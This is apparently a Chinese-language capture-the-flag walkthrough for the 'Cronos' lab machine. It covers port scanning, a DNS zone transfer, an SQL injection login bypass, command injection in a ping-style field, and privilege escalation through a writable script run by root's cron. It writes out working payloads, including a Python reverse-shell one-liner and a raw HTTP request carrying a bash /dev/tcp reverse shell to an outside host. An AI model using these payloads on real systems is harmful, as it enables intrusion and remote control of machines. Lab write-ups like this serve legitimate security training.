


nmap

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.13
```


访问80，扫了下目录什么也没有。


53端口，尝试解析靶机的域名

使用nslookup指定靶机为DNS服务器，然后解析靶机的域名

```bash
nslookup 
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
> 

```

拿到ns1.cronos.htb

使用dig查询DNS记录，DNS服务器存在区域传输漏洞可以使用axfr

<http://t.zoukankan.com/ibyte-p-6114893.html>

```bash
dig axfr cronos.htb @10.10.10.13
```


拿到三个子域名，`ns1,www,admin`

添加到`/etc/hosts`



访问`www.cronos.htb`



看了下源码都是跳转到laravel官网，没有发现什么功能

扫web目录，没发现有价值的信息


访问`admin.cronos.htb`


尝试过admin枚举没有成功

SQL注入登录成功

```bash
username：' or 1=1#
password：' or 1=1#
```


存在命令执行

```bash
8.8.8.8;id
```


反弹shell

```bash
8.8.8.8;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

或者

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=r5bp088ag2fp2k38m0rronkfj4
Upgrade-Insecure-Requests: 1

command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.3/2333+0>%261'&host=
```


升级交互式shell

```bash
python -c 'import pty;pty.spawn("bash")'

Ctrl+Z

stty raw -echo;fg

Enter
```

提权

使用`pspy32`，检测到`root`每分钟会执行`www-data`的php脚本，`/var/www/laravel/artisan`


查看`/var/www/laravel/artisan`发现是反弹shell脚本，而`www-data`有该文件读写权限

修改此处


一分钟反弹shell成功


